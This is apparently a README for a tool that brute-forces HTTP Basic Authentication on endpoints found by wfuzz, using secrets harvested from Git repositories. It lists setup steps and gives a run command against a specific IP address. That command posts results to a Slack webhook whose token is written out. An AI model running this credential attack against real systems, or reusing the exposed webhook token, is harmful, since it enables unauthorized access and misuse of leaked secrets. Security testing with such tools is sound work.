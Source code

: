 # Basic Authentication Bruteforcing of WFUZZ endpoints with secrets obtained from Repo-Supervisor

1. `cd` into the `wfuzz-basicauth-bruteforcer` directory.

2. Complete the `.env.sample` file in the `wfuzz-basicauth-bruteforcer` directory with the appropriate values and copy it to `.env`.

3.

For MacOS, activate the virtual environment and install `pycurl`:
    * `virtualenv env`
    * `. env/bin/activate`
    * `pip install pycurl`

For Linux, activate the virtual environment and install `pycurl`:
    * `virtualenv env`
    * `. env/bin/activate`
    * `sudo apt-get install -y build-essential libssl-dev libffi-dev python-dev libcurl4-openssl-dev`
    * `pip install pycurl`

4. Now, in order to bruteforce the basic authentication mechanism with the data retrieved from `wfuzz` and `git-all-secrets`, type `go run bruteforce.go -target 104.198.4.57 -slackHook https://hooks.slack.com/services/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`.

5. Come out of the virtual environment by typing `deactivate`.

6. We should get back some results in Slack.
